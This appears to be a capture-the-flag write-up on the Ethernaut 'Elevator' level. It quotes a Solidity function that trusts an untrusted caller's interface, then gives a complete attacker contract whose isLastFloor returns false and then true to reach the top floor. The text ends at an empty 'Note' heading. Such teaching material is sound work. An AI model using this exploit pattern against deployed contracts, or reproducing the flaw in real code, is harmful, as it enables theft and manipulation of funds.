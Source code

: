 ### Vulnerable Parts

```solidity
function goTo(uint _floor) public {
  Building building = Building(msg.sender);

  // First time we must make isLastFloor false, in order to execute stuff in the if statement (!false = true)
  if (! building.isLastFloor(_floor)) {
    floor = _floor;
    // Second time we call isLastFloor it should be true, in order for top to be true.
    top = building.isLastFloor(floor);
  }
}
```

1. This function is calling building's `isLastFloor()` for flow control.
2. But Building is just an interface, we can come up with our own implementations to trick the contract to think it's at the top.

### Attack!

```solidity
contract CapitalTower is Building {
    Elevator private immutable i_elevator;
    bool private switchFlipped = false;

    constructor(address elevatorAddress) public {
        i_elevator = Elevator(elevatorAddress);
    }

    function isLastFloor(uint) external override returns(bool) {
        // First call must return false, second call must return true.
        // first call
        if (!switchFlipped) {
            switchFlipped = true;
            return false;
        // second call
        } else {
            switchFlipped = false;
            return true;
        }
    }

    function hack() public {
        i_elevator.goTo(1);
    }
}
```

### Note
